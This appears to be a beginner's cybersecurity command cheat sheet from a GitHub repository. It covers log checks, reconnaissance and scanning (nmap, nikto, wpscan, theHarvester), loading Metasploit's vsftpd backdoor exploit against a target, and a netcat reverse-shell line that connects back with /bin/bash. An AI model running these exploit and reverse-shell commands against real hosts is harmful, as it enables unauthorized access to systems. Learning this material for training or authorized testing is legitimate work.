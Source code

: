 # first-repository-
# View login attempts
last

# View authentication logs
sudo cat /var/log/auth.log

# List firewall rules
sudo ufw status
# See your IP address (Linux)
ip a

# Check if a host is reachable
ping google.com

# Get DNS info for a domain
nslookup example.com

# Basic network info (hostname, routes, etc.)
hostname
route
# Whois lookup for domain info
whois example.com

# Simple DNS query
dig example.com

# Search for email addresses linked to a domain
theHarvester -d example.com -b google
# Quick scan for open ports
nmap <target_ip>

# More detailed scan
nmap -sV <target_ip>

# Scan a website
nmap -p 80,443 example.com
# List shared folders and users (Linux target)
smbclient -L //<target_ip>/ -U guest

# Web server analysis
curl -I http://<target_ip>
# Basic web scan
nikto -h http://<target_ip>

# WordPress scan (if applicable)
wpscan --url http://<target_ip> --enumerate u
# Start Metasploit Framework
msfconsole

# Search for vulnerabilities
search vsftpd

# Load exploit module
use exploit/unix/ftp/vsftpd_234_backdoor

# Set the target IP
set RHOSTS <target_ip>
# Start a listener on your machine
nc -lvnp 4444

# On the target: connect back (if allowed)
nc <your_ip> 4444 -e /bin/bash
# See all running processes
ps aux

# See all network connections
netstat -tuln

# List files in a directory
ls -l
